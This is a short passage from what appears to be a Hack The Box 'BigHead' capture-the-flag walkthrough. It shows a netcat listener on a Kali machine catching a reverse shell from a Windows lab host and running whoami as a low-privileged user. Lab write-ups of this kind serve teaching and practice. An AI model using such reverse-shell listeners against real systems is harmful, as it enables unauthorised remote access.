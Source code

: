 

A few minutes later:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.112.
    Ncat: Connection from 10.10.10.112:49200.
    Microsoft Windows [Version 6.0.6002]
    Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

    C:\nginx>whoami
    piedpiper\nelson




[« BigHead Walkthrough](/htb-bighead.md)







